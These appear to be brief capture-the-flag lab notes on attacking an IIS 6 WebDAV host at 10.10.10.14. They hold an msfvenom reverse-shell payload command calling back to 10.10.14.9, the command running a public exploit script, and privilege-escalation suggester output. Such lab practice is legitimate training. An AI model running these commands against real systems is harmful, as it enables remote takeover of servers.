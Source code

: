 iis_webdav_scstoragepathfromurl

https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl
https://raw.githubusercontent.com/danigargu/explodingcan/master/explodingcan.py

msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=10.10.14.9 LPORT=4444 >shellcode

python explodingcan.py http://10.10.10.14 shellcode
exploit

post/multi/recon/local_exploit_suggester

```
[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.

```

windows/local/ms15_051_client_copy_image

ms14_070_tcpip_ioctl
